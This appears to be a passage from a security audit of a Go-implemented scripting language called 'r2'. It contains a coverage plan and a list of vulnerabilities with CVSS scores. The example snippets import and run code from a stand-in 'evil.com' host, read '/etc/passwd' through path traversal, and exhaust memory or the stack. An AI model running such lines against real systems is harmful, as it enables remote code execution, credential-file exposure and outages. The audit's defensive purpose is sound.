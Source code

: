 ```go
```

#### Phase 2: Coverage (80 hours)
```go
// Comprehensive test suite
TestSuite_Lexer: 90% coverage target
TestSuite_Parser: 85% coverage target  
TestSuite_Evaluator: 80% coverage target
TestSuite_Environment: 95% coverage target
```

## Security Assessment

### Identified Vulnerabilities

#### 🔴 CRITICAL

**1. Arbitrary Code Execution via Import**
```r2
import "http://evil.com/malware.r2" as mal
mal.backdoor()  // Executes remote code without validation
```
**CVSS Score**: 9.3 (Critical)
**Mitigation**: URL whitelist, sandbox execution

**2. Path Traversal**
```r2  
io.readFile("../../../../etc/passwd")
// No path validation
```
**CVSS Score**: 7.5 (High)

**3. Denial of Service - Resource Exhaustion**
```r2
// Memory bomb
let arr = []
while (true) { arr.push(new Array(1000000)) }

// Stack overflow  
func infinite() { return infinite() }
```
**CVSS Score**: 6.2 (Medium)

#### 🟡 MEDIUM

**4. Information Disclosure**
```go
panic("Undeclared variable: " + secretVarName)
// Exposes internal variable names
```

**5. Timing Attacks**
```go
// String comparisons without constant time
if password == inputPassword { ... }
```
